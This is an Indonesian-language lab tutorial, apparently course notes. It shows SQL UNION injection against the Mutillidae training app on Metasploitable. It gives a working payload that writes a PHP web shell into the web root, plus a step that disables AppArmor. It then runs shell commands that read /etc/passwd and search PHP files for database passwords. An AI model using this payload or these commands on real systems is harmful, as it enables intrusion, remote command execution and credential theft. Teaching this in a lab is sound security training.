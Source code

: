 ## Lesson 10 - SQL Injection Union Exploit \#3

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.
Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti user apache, mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Masukan command linux pada textbox tersebut `find * -name "*.php" | xargs grep -i "password" | grep "="`. Hal ini dilakukan untuk mencari file berekstensi `.php` dan mencari string yang mengandung `password=`, yang disasar adalah password database mysql.















